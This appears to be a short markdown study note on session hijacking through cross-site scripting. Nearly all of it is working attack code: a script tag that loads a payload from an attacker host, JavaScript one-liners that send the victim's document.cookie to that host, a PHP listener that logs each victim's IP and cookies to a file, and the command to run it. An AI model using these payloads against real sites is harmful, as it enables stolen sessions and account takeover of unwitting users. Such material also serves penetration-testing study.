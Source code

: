 # Session Hijacking

## Loading a Remote Script

In order to load a remote script, we use the folowing intruction:

```
<script src="http://OUR_IP/script.js"></script>
```

The file **script.js** must contain a payload , here some example:

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Giving sequence to the process, we must create some server to receive the data. To perform that, we create the **index.php** file and store it .
Here the command:

```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```
After all, we must run our server, typing the following command:
```
sudo php -S 0.0.0.0:PORT 
```
